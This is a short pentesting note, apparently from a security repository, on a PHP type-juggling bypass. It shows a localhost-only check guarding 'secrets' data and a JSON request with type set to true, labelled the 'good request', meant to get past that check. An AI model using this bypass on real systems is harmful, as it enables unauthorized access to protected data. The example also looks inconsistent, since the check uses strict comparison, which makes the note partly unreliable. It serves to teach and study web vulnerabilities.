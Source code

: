 # Detection
### Bypass comparison
- Source code
  ```php
  if ($jsondata['type'] === 'secrets' && $_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
        {
            return $router->jsonify(['message' => 'Currently this type can be only accessed through localhost!']);
        }
  ```
- Wrong request
  ```bash
  POST /api/getfacts HTTP/1.1
  (Request Body)
  {
    "type":  "secrets"
  }
  ```
- Good request
  ```bash
  POST /api/getfacts HTTP/1.1
  (Request Body)
  {
    "type":  true
  }
  ```  

# Resource 
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Type%20Juggling
